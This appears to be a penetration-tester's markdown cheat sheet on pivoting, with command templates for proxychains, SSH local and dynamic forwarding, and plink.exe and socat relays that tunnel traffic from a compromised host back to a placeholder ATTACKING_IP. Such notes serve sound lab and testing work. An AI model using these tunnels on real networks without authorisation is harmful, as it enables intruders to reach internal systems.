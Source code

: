 # Pivoting

## There are 2 types of pivoting

1. Port Forwarding (only one port)
2. Tunnelling and Proxying (all ports)

## Proxychains

Works by prepending the command `proxychains` before other commands.

Proxychains configuration file: `/etc/proxychains.conf` (but proxychains will look into working direcotry first)

```
cp /etc/proxychains.conf .
```

## SSH Tunnelling / Port Forwarding

### Forward (local) Connections

Created from our attacking machine, when we have SSH access to the target.

Local port forwarding:
```
ssh -L LOCAL_LPORT:TARGET_RHOST:TARGET_RPORT USER@TARGET_RHOST -fN
```

Dynamic proxy:
```
ssh -D LOCAL_LPORT USER@TARGET_RHOST -fN
```

## plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

## socat

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
./socat tcp-l:<COMPROMISED_LPORT>,fork,reuseaddr tcp:<TARGET_RHOST>:<TARGET_RPORT> &
```

